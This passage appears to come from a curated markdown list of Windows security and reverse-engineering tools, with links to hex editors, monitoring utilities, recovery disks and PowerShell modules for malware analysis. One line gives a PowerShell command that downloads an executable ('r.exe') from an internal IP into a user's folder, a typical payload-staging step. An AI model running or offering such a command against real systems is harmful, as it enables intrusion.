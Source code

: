 


<br>

---

## Windows commands / steroids

---

* [hiew](http://www.hiew.ru/) - view and edit files of any length in text, hex, and decode modes, ...
    <br> [radare2](https://github.com/radare/radare2) - is a very good alternative (probably even better) - some people say: radare must not be treated as disassembler, but as featured hex-editor
* **Monitor system / executables / processes / ...**

    * [SysInternals Suite](https://technet.microsoft.com/ru-ru/sysinternals/bb842062) - [docs](https://technet.microsoft.com/ru-ru/sysinternals/bb842062) – sysinternals troubleshooting utilities
    * [x64tools](http://www.nirsoft.net/x64_download_package.html) - [docs](http://www.nirsoft.net/x64_download_package.html) – small collection of utils for x64 windows
    * [Process Hacker](http://processhacker.sourceforge.net/) - helps to monitor system resources, debug software and detect malware
    * [NirSoft](http://www.nirsoft.net/) - contains lots of utilities for windows monitoring and forensics
    * [api-monitor-v2r13-x86-x64](http://www.rohitab.com/apimonitor) – lets you monitor and control API calls made by applications and services

* **repair/restore**

    * [MSDaRT](http://usbtor.ru/viewtopic.php?t=126) - microsoft diagnostic and recovery toolset
    * [Hiren's Boot CD](http://www.hirensbootcd.org/download/) (9 Nov 2012)
    * [AntiSMS](https://antisms.com/)

<br>

* `powershell -nop -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.108/r.exe', 'C:\Users\Bethany\Links\r.exe')"` - netcat analogue
* [FakeNet](https://sourceforge.net/projects/fakenet/) - windows network simulation tool. It redirects all traffic leaving a machine to the localhost
* ***powershell*** (`get-method`, `get-help`). Steroids:
    
    * [PowerTab](https://powertab.codeplex.com/) - extension of the PowerShell tab expansion feature
    * [PowerShellArsenal](https://github.com/mattifestation/PowerShellArsenal) - module can be used to disassemble managed and unmanaged code, perform .NET malware analysis, analyze/scrape memory, parse file formats and memory structures, obtain internal system information, etc

* ***ClipboardView*** (win)
* ***putty*** – ssh client





<br>

---

## Tunneling/pivoting

---